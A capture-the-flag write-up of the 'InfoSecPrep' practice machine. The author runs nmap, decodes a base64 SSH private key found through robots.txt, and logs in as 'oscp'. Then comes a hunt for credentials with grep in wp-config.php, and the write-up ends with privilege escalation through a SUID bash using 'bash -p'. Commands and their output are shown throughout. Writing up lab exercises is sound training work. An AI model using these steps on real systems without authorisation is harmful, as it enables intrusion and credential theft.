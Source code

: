 ### Reconnaisance

The first step starts with, as always, some recon.
Running `nmap` shows that the target has port 80 and 22 open.

`nmap -Pn -F infosecprep`

```
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-06-05 12:10 +0545
Nmap scan report for infosecprep (192.168.242.89)
Host is up (0.17s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.38 seconds

```

Then I tried to look at these ports in detail.

`nmap -Pn -sC -sV -p 22 infosecprep`

```
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-06-05 12:12 +0545
Nmap scan report for infosecprep (192.168.242.89)
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 7.33 seconds

```

This shows that the target is running a fairly recent version of OpenSSH.
Being aware about the quality software that the OpenBSD project makes,
I didn't try looking at this any more deeper.

### Obtaining Secrets

So let's try the HTTP port.

`nmap -Pn -sC -sV -p 80 infosecprep`

```
Starting Nmap 7.92 ( <https://nmap.org> ) at 2022-06-05 12:09 +0545
Nmap scan report for infosecprep (192.168.242.89)
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: OSCP Voucher &#8211; Just another WordPress site
| http-robots.txt: 1 disallowed entry
|_/secret.txt
|_http-generator: WordPress 5.4.2

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 14.78 seconds

```

Nmap has identified a `robots.txt` entry which piques my interest. Let's see what
that contains.

`curl -L infosecprep/robots.txt`

```
User-Agent: *
Disallow: /secret.txt

```

Interesting! Let's see what that `secret.txt` file contains.

`wget infosecprep/secret.txt && cat secret.txt`

```
LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS0KYjNCbGJuTnphQzFyWlhrdGRqRUFB
.
.
.
T1BFTlNTSCBQUklWQVRFIEtFWS0tLS0tCg==

```

Hmm... That's a rather long string (I’ve omitted the full output).

From my experience with `base64`, I have noticed that most of the base64 encoded
strings have a `==` at the end. Furthermore, by default `base64` wraps lines
at the 76th character.

`head -n 1 secret.txt | wc -c`

This outputs 77 which includes the additional newline at the end. So I can be
fairly certain this is base64 encoded. Let's decode that.

`base64 -d secret.txt`

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
.
.
.
kuoRiShh6uCjGCCH/WfwCof9enCej4HEj5EPj8nZ0cMNvoARq7VnCNGTPamcXBrfIwxcVT
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----

```

Would you look at that? I have the ssh identity key (private key).

### Getting In

On the initial ssh port scan, the target machine gave me public keys for three
algorithms: RSA, ECDSA and ED25519.

Although, I have yet to learn about Elliptic curves and the whole world of
cryptography, I once came across Daniel Bernstein's (that guy is a genius!)
paper on ED25519: [https://ed25519.cr.yp.to/papers.html](https://ed25519.cr.yp.to/papers.html). He mentions the fact
that the algorithm has smaller keys, much smaller than RSA. And from my
experience using SSH (I have switched to ED25519 keypairs from RSA), I know that
the latter (ECDSA, ED25519) two algorithms in fact have smaller keys. So looking
at the length of what we just got, it must be an RSA private key.

Not that the algorithm matters in this case and I also usually don't think THAT
much when taking guesses, I just wanted to show how my intuition about various
things has developed (keys in this case) from seemingly random facts I stumble
across online.

So let's put that into a file `id_rsa`, fix permissions with `chmod 600 id_rsa`
and try logging in to the ssh server as... Wait a minute. Which user should I login
as?

After getting denied as root, I realised I'd probably have to enumerate on the
usernames. However, that will probably take a lot of time. Furthermore, this is
supposed to be an easy challenge. So I thought it best to try the easiest
option first.

*A wise hacker chooses the easiest path to success.* - Sun Tzu

I realised that I hadn't looked into that port 80 well enough. I loaded the page
into my browser and reading what was on there revealed that the machine had the
user `oscp` on it. Logging in as that user with the private key got me in.

There was a file `local.txt` and there was one of our flag. I submitted it and
it was correct.

### (Failing at) Getting the Root Flag

Now for the root flag.

Let's look at what users are on the system.

`cat /etc/passwd`

One of the users is `mysql`. The website is also hosting itself as a web server.
The web server's Apache. Maybe I need to look into the `/var/www/html` page.

There are some php scripts there. But I am too lazy to inspect each one. All I
care about is perhaps the admin has left in some hardcoded passwords for the
website. Let's look for the password string.

`grep -R 'password' /var/www/html/`

This spit out a ton of output. However, my eyes landed on a file
`wp-config-sample.php` which contains some credentials. Looking at the suffix of
the file name i.e. sample this was probably not what I needed. Fortunately,
there was another file `wp-config.php` and in it, were the hardcoded credentials.

I got the credentials for the `wordpress` mysql user and there I could dump
the contents of the `wp_users` table. It had the `admin` user's password hash.
After failing to crack the password, I started to realise I was probably on the
wrong path. This is supposed to be an easy challenge, after all.

### (For real) Getting the Root Flag

After looking around a while (no actually, I was stuck at this for 2 days), I
noticed the command line had that `-bash-5.0$` as the prompt. This should signify
a login prompt but it reminded me of what Prashant dai suggested us: *look for
suid binaries*.

`find /usr/bin/ -type f -perm -4000`

```
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/bash
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su

```

And immediately, the fact that `/usr/bin/bash` had been set UID as root all the
time made me quite confident that this was what I was supposed to use for
privilege escalation.

Well, yeah, but how?

After digging around in the bash man page - which is apparently a huuuge
document - I came across the 'INVOCATION' section which mentions that the -p
option will not reset the effective user id. And it was all just guess work from
then.

`bash -p`

And all of a sudden...

```
-bash-5.0$ bash -p
bash-5.0#

```

I was root!

And yeah that's how the root flag was discovered.

Good game.
